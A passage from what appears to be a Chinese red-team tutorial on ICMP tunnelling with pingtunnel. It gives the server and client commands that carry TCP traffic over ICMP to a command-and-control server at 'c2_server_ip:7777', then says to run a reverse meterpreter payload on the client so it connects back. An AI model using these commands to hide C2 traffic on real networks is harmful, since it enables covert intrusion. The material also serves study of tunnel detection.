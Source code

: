 这样通道就建立起来，192.168.1.8 的 8888 端口收到的 tcp 流量，都会被转为 icmp 流量发给 server，然后在 server 端解析成 tcp（解析到 7777 端口）

假如这样把 tcp 流量发给 192.168.1.8 的 8888

![image-20240109224512073](./img/Tunnel/image-20240109224512073.png)

server 端可以收到并解析出来

![image-20240109224633925](./img/Tunnel/image-20240109224633925.png)

#### 转发 TCP 上线 msf

- 准备好一个具有公网 IP 的服务器，root 权限运行以下命令，启动 ICMP 隧道服务端

```
./pingtunnel -type server -noprint 1 -nolog 1
```

- ICMP 隧道客户端（即需要通过 ICMP 隧道上线的主机）执行以下命令即可成功创建反向 ICMP 隧道

```shell
pingtunnel.exe -type client -l 127.0.0.1:9999 -s icmpserver_ip -t c2_server_ip:7777 -tcp 1 -noprint 1 -nolog 1
# 该命令的意思是icmp客户端监听127.0.0.1:9999，通过连接到icmpserver_ip的icmp隧道，将127.0.0.1:9999收到的tcp数据包转发到c2_server_ip:7777
# icmpserver_ip 192.168.1.10
# c2_server_ip 192.168.1.10
```

生成反向 payload 的 meterpreter 并上传到 ICMP 隧道客户端执行即可上线
